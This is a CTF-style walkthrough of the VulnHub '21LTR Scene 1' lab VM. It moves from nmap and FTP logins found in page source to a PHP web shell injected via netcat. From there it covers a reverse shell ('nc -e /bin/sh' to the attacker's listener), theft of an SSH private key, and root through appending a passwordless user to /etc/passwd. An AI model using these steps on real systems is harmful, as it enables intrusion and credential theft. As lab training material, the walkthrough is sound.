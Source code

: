 # 21LTR-Scene-1 in 2020
This is a hlog (hacking log) Walkthrough, vm is from https://www.vulnhub.com/entry/21ltr-scene-1,3/

Scene 1
Your pentesting company has been hired to perform a test on a client company's internal network. Your team has scanned the network and you have been assigned one of the discovered systems. Perform a test on this system starting from the beginning of your chosen methodology and submit your report to the project manager at scenes AT 21LTR DOT com

Scope Statement
The client has defined a set of limitations for the pentest: - All tests will be restricted to the systems identified on the 192.168.2.0/24 network. - All commands run against the network and systems must be supplied in the form of script files packaged with the submission of the report - A final report indicating all identified vulnerabilities and exploits will be provided to the company's engineering department within 90 days of the start of this engagement.

Configuration
Scenario Pentest Lab Scene 1:

This LiveCD is configured with an IP address of 192.168.2.120 - no additional configuration is necessary.


1.Import iso into esxi server.  
Once downloaded, upload your file to Datastore, so you can apply the iso when you create the vm. 

2.Change Kali's ip address, so it both machines are ping each other. 

3.Let the hunt begins! Let do a nmap first 

`nmap -sV 192.168.2.120 `  OR just simplely  `nmap 192.168.2.120`

4.Looking at what services they are offering 
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-29 22:42 CST  
Nmap scan report for 192.168.2.120  
Host is up (0.00058s latency).  
Not shown: 997 closed ports  
PORT      STATE SERVICE     VERSION  
21/tcp    open  ftp         ProFTPD 1.3.1  
22/tcp    open  ssh         OpenSSH 5.1 (protocol 1.99)  
80/tcp    open  http        Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)   
Service Info: OS: Unix  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 19.49 seconds  
```
5. Http services looks like a great start. 
``` firefox 192.168.2.120 ```  
Then press F12 to see the source code, you will see a log info..  
```  <!-- username:logs password:zg]E-b0]+8:(58G -->  ``` 

6. Let's have a deeper understanding of this website. 
``` dirb http://192.168.2.120 ``` 
Then you will see a entering directory: http://192.168.2.120/logs/ 

7. Great start! Let's go to this link, no so good. 
``` 
Forbidden 
You don't have permissions to access /logs/ on this server.
```
 Well, we don't have much luck there. 
 
8. Don't forget about we also have an ftp service running, why don't we try that? 

``` ftp 192.168.2.120 ``` 

then enter logs as the username, zg... as the password. 

9. Code 230, you are login! 

Like we always do, using ``` ls``` to look for any files.

Then we find out something interesting. Using ``` get backup_log.php ``` download the file into our local directory. 

10. Check out what is inside? 

``` cat backup_log.php ``` to see what's inside. 

```
<html>                                                                                                                        
        <head>  
                <title></title>  
        </head>                  
        <body>   
                <h2 style="text-align: center">  
                        Intranet Dev Server Backup Log</h2>  
                        <?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>            
                <p>                                                                                                           
                        &nbsp;</p>               
                <h4>                             
                        Backup Errors:</h4>  
                <p>                          
                        &nbsp;</p>           
        </body>                              
</html>  
  
Wed, 03 Jan 2012 09:51:42 +0000 from 192.168.2.240: Permission denied  
<br><br>  
Thu, 04 Jan 2012 13:11:29 +0000 from 192.168.2.240: No Such file or directory  
<br><br>  
Thu, 04 Jan 2012 13:31:36 +0000 from 192.168.2.240: No space left on device  
<br><br>  
Thu, 04 Jan 2012 13:41:36 +0000 from 192.168.2.240: No Space left on device  
<br><br>  
Mon, 16 Feb 2012 17:01:02 +0000 from 192.168.2.240: No Space left on device  
<br><br>  
Fri, 23 Apr 2012 10:51:07 +0000 from 192.168.2.240: No Space left on device  
<br><br>  
Fri, 12 May 2012 16:41:32 +0000 from 192.168.2.240: No Space Left on device  
<br><br>  
GET / HTTP/1.0  

```
11.Ip 192.168.2.240 looks interesting, and it looks like we are server trying to send us something every 10 mins. 

```
Thu, 04 Jan 2012 13:31:36 +0000 from 192.168.2.240: No space left on device  
<br><br>  
Thu, 04 Jan 2012 13:41:36 +0000 from 192.168.2.240: No Space left on device  
<br><br> 
```
Let's change our ip and see what is up. At this point, we need to change our Kail ip to 192.168.2.240

12. Fired up wireshark, and see what files that server trying to send me. 

Apply filters in wireshark 

``` ip.src == 192.168.2.120 ``` 

then you will find out something is happening at port 10001 

so an additional filter was added 
``` tcp.port == 10001 ```


13. With the port number confirmed, it is time for nc. 

When I try nc on port 10001 at first, I was getting connection refused. Then I search online a bit and someone recommanded to use a while loop, so here we go. 

```
while true; do nc -v 192.168.2.120 10001 && break; sleep 1; clear; done 
```
if it shows connection refused, wait for a little. 

Once you see the connection has been established, then enter 

``` <?php system($_GET['cmd']) ?> ``` 

This command is using PHP one-liner, and it allows us to run commands from here. 

14. Let's try run some commands here 

```
http://192.168.2.120/logs/backup_login.php?cmd=whoami 
```

At the really bottom of the web page , we see ``` apache ``` on the bottom, which is great! We can run commands now. 


15.Let's start an netcat as listener on our Kali terminal

```
nc -lvp 443 
```


16.Now we will try a bash one-liner to get a reverse shell

```
http://192.168.2.120/logs/backup_login.php?cmd=nc -e /bin/sh 192.168.2.12 443
```
The web broswer will not be responding, but that is ok, we are still getting the things we needed. 

17.Gain the /bin/sh access from this 443 nc session 

So far we have  an incomplete and improper shell, in order to invoke a proper shell, we will be using a python one-liner

```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Hit enter when you done entering. 

18.sh-3.1$ ---Yeah, we are almost done. 

At this point, you can run bash commands on this nc session. By going through their folders, there is something interesting. 

```
cd /media/USB_1/Stuff/Keys/
cat authorized_keys     you will see an user name here hbeale@slax
cat id_rsa  ---- this is the private key... 
```

19.Using key to login, good....  Copy the key to local, then save key file and change permissions

``` chmod 600 id_rsa(yourfilename) ``` 

20.Login to the server, using keys.Since we changed the permissions of our private key, we now can use the key to login. 

```ssh -i id_rsa hbeale@192.168.2.120 ``` 

21.Viewing permissions. Let's try on a low permission command.  ``` sudo -l ``` 

We also discover something intersting. ```  (root) NOPASSWD: /usr/bin/cat ``` 

22.Gain root permissions.  Entering  ``` sudo /usr/bin/cat >> /etc/passwd  ```  and  ``` orange::0:0::/root:/bin/bash  ```

When you done, use Control+C  to end, then use ``` su orange ```   To gain the root permissions. 

(orange can be replaced to any username)

23. Checking the root permissions. 

As soon as you finished entering that command , you will see  ``` root@slax:/home/hbeale# ```

When you check ``` id ```  You will see   ``` uid=0(root) gid=0(root) groups=0(root) ```
 
24. Great job! All done! 
